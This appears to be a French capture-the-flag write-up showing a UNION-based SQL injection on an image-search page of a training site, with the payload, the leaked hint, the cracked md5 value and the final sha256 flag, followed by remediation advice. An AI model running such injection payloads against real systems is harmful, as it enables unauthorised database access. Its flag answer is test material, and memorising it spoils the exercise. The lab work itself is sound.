 #

#### Page: __


## Description de la vulnerabilte:
Grace à la précédente SQLI découverte, on connait déjà les noms des tables et des
colonnes de la base de données.

On determine logiquement que la table utilisée ici est:  
Table `list_images`:
```
id
url
title
comment
```

On teste l'ensemble des columns et on finit par trouver que:
```
?page=searchimg&id=1 OR 1=1 union select comment,null from list_images&Submit=Submit#
```
renvoie l'information:
```
Url : If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
```

`1928e8083cf461a51303633093573c46` est un hash md5 de `albatroz`.

On hash `albatroz` en sha256:
```
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```


## Scénario d'attaque:
Une vulnerabilité de type injection SQL peut permettre d'accéder ou de
modifier une base de données de type SQL.
Dans certains cas, comme celui ci, la faille permet de récupérer l'intégralité
du contenu de la base, dont les idendifiants et les mots de passe des utilisateurs
du site.


## Correctifs:
- Utiliser `mysqli_real_escape_string()` afin d'échapper les caractères spéciaux
provenant des entrées utilisateur.
- Utiliser des procédures stockées, qui sont des instructions SQL précompilées,
 à la place du SQL dynamique.
- La plupart des ORM utilisent des systèmes de requêtes préparées dans lesquelles
le SGBD se charge alors de l'echappement et du contrôle des requêtes
